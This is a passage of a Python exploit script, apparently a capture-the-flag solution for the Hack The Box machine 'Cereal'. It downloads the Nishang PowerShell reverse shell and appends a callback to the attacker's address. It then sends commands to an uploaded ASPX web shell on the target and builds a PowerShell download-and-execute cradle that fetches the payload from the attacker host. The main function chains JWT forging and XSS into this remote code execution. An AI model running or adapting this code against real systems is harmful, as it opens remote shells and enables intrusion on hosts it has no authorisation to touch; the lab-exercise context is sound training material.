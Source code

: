 ```py
    
# Mount the payload
def mountPayload(lhost,lport):
    print("[+] Meanwhile, let's mount the ps1 payload [+]")
    if os.path.isfile('Invoke-PowerShellTcp.ps1'):
        os.system("rm Invoke-PowerShellTcp.ps1")
    print("[+] Let's download the Nishang reverse [+]")
    os.system("wget -q -c https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1")
    print("[+] Download Ok! [+]")
    print("[+] Let's add the call to reverse shell! [+]")
    file = open('Invoke-PowerShellTcp.ps1', 'a')
    file.write('Invoke-PowerShellTcp -Reverse -IPAddress %s -Port %s' %(lhost,lport))
    file.close()
    print("[+] Call added! [+]")

def getRCE(rhost,command):
    print("[+] Now, let's get the reverse [+]")
    print("[+] Waiting the server download the aspx !!! [+]")
    os.system("sleep 150")
    url = "https://source.%s:443/uploads/21098374243-shell.aspx" %rhost
    headers = {"Referer": "https://source.cereal.htb/uploads/21098374243-shell.aspx", "Content-Type": "application/x-www-form-urlencoded", "Origin": "https://source.cereal.htb"}
    # First req to get the right parameters
    req = r.post(url, headers=headers, proxies=proxies, verify=False)
    STATE = re.search('input.+?name="__VIEWSTATE".+?value="(.+?)"', req.text).group(1)
    GENERATOR = re.search('input.+?name="__VIEWSTATEGENERATOR".+?value="(.+?)"', req.text).group(1)
    VALIDATION = re.search('input.+?name="__EVENTVALIDATION".+?value="(.+?)"', req.text).group(1)
    data = {"__VIEWSTATE": "%s" %STATE, "__VIEWSTATEGENERATOR": "%s" %GENERATOR, "__EVENTVALIDATION": "%s" %VALIDATION, "txtArg": "%s" %command, "testing": "excute"}
    # Now just send the commands
    req1 = r.post(url, headers=headers, proxies=proxies, verify=False, data=data)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-ip', '--localip', help='Local IP to receive the reverse', required=True)
    parser.add_argument('-p', '--localport', help='Local Port to receive the reverse', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web python server
    webServer()
    # Create the token
    createJWT()
    # Send XSS
    sendXSS(rhost,token,lhost)
    # Trigger XSS
    triggerXSS(rhost,token)
    # Let's mount the payload
    mountPayload(lhost,lport)
    # Let's get the reverse now
    command = "powershell IEX(New-Object Net.WebClient).downloadString('http://%s/Invoke-PowerShellTcp.ps1')" %lhost
```
